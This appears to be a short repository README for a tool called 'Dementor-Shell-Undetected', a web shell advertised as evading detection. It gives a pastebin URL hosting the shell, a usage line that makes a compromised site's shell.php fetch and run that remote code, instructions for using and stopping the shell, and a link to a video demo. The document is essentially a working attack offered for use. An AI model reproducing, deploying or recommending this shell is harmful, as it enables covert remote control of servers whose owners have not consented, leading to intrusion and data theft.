 # Dementor-Shell-Undetected

Mini Shell URL: http://pastebin.com/raw/5KRBakK8

Usage: https://evil.com/shell.php?start=http://pastebin.com/raw/5KRBakK8

And then use the shell as https://evil.com/shell.php

If you want to stop the shell just put https://evil.com/shell.php?stop

## Video Demo:

[![VideoURL](https://i.ibb.co/GJXHBX3/download.png)]([https://www.youtube.com/watch?v=IuzwL791etA](https://www.youtube.com/watch?v=IuzwL791etA) "Video URL")
